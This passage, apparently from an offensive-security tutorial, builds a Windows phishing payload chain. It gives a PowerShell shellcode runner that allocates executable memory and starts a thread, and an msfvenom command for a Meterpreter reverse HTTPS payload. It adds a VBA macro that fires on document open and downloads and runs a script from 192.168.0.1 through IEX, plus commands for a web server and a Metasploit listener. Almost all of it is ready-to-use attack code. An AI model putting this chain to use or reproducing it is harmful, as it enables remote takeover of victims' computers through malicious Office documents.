 ```powershell

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0x0,0x0,0x0,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

Substitute the `[Byte[]] $buf = 0x0,0x0,0x0,0x0,0x0,0x0...` with the output from the following:
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 EXITFUNC=thread -f ps1
```

Finally, our macro should look like so. Very similar to the original, but a slight variant to give us more versions of the VBA to experiment with should the exploit not work for any reason.
```vba
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.0.1/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Before executing, don't forget to start the web server:
```bash
python3 -m http.server 80
```
and also don't forget to get the staged meterpreter listener ready:
```bash
sudo msfconsole -q
```
```bash
use multi/handler
```
```bash
set payload windows/x64/meterpreter/reverse_https
```
```bash
set lhost 192.168.0.1
```
```bash
set lport 443
```
```bash
exploit
```
